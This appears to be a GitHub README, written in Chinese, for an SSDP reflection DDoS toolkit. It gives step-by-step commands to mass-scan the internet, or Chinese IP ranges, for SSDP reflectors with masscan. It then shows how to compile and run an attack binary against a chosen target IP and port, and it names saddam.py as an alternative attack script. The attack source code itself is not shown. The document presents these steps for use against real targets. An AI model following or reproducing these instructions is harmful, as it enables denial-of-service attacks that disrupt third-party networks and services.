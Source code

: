 # Ddos Ssdp Attack
> Use Masscan Scan Server

### 安装环境
	yum install git make screen gcc

### 安装 Masscan
	git clone https://github.com/robertdavidgraham/masscan
	cd masscan
	make && make install

### 扫描 Server
	# 最高速扫描全网 SSDP 端口保存为 JSON
	screen masscan 0.0.0.0/4 -p1900 --rate 100000000 -oJ ip.json
	# 转换格式为单 IP 的 TXT
	python format.py ip.json ip.txt

> **扫描中国IP段方式**<br>
> screen masscan -iL ip/cn_ip.txt -p1900 --rate 100000000 -oJ ip.json

### 攻击 SSDP
	# 编译攻击脚本
	gcc -pthread ssdp.c -o ssdp
	# SSDP 攻击
	./ssdp <target IP> <target port> <reflection file> <time (optional)>

> 攻击或使用功能更全的 saddam.py 攻击脚本

